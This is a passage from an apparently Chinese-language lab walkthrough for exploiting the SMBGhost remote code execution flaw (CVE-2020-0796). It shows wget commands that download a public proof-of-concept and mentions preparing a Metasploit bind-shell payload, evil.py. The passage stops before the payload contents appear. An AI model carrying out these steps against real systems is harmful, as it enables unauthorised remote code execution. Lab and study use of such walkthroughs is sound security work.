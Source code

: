```bash
mkdir CVE-2020-0796
cd CVE-2020-0796
wget https://github.com/chompie1337/SMBGhost_RCE_PoC/archive/refs/heads/master.zip
unzip master.zip
cd SMBGhost_RCE_PoC-master
```

把msf生成的正向shell exp evil.py以及下载利用的poc的exploit.py复制出来，修改比较方便

![9](/medias/永恒之黑/9.png)

这里是evil.py里的内容
